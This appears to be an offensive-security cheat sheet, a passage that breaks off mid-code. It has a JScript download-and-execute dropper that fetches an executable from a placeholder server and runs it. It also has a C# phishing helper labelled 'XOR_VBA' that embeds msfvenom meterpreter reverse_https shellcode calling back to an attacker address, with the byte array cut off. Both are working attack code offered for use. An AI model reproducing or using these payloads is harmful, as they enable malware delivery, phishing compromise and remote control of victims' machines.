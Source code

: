 # Javascript

## Download&Execute

```javascript
var url = "http://YOUR_SERVER/YOUR.exe"
var Object = WScript.CreateObject('MSXML2.XMLHTTP');

Object.Open('GET', url, false);
Object.Send();

if (Object.Status == 200)
{
    var Stream = WScript.CreateObject('ADODB.Stream');

    Stream.Open();
    Stream.Type = 1;
    Stream.Write(Object.ResponseBody);
    Stream.Position = 0;

    Stream.SaveToFile("met.exe", 2);
    Stream.Close();
}

var r = new ActiveXObject("WScript.Shell").Run("YOUR.exe");
```
<br>
<br>


# Phishing

<br>
	
## XOR_VBA

- Generate shellcode with msfvenom and place here.
- Build with csc and run with mono.
```csharp
using System;
using System.Collections.Generic;
using System.Linq;
using System.Text;
using System.Threading.Tasks;

namespace EncryptVBA
{
    class Program
    {
    static void Main(string[] args)
    {
    //msfvenom -p windows/x64/meterpreter/reverse_https LHOST=192.168.1.38 LPORT=3333 -f csharp
    byte[] buf = new byte[619] {
0xfc,0x48,0x83,0xe4,0xf0,0xe8,0xcc,0x00,0x00,0x00,0x41,0x51,0x41,0x50,0x52,
0x48,0x31,0xd2,0x51,0x65,0x48,0x8b,0x52,0x60,0x48,0x8b,0x52,0x18,0x56,0x48,
0x8b,0x52,0x20,0x4d,0x31,0xc9,0x48,0x0f,0xb7,0x4a,0x4a,0x48,0x8b,0x72,0x50,
0x48,0x31,0xc0,0xac,0x3c,0x61,0x7c,0x02,0x2c,0x20,0x41,0xc1,0xc9,0x0d,0x41,
0x01,0xc1,0xe2,0xed,0x52,0x48,0x8b,0x52,0x20,0x8b,0x42,0x3c,0x41,0x51,0x48,
0x01,0xd0,0x66,0x81,0x78,0x18,0x0b,0x02,0x0f,0x85,0x72,0x00,0x00,0x00,0x8b,
0x80,0x88,0x00,0x00,0x00,0x48,0x85,0xc0,0x74,0x67,0x48,0x01,0xd0,0x8b,0x48,
0x18,0x44,0x8b,0x40,0x20,0x50,0x49,0x01,0xd0,0xe3,0x56,0x4d,0x31,0xc9,0x48,
0xff,0xc9,0x41,0x8b,0x34,0x88,0x48,0x01,0xd6,0x48,0x31,0xc0,0xac,0x41,0xc1,
```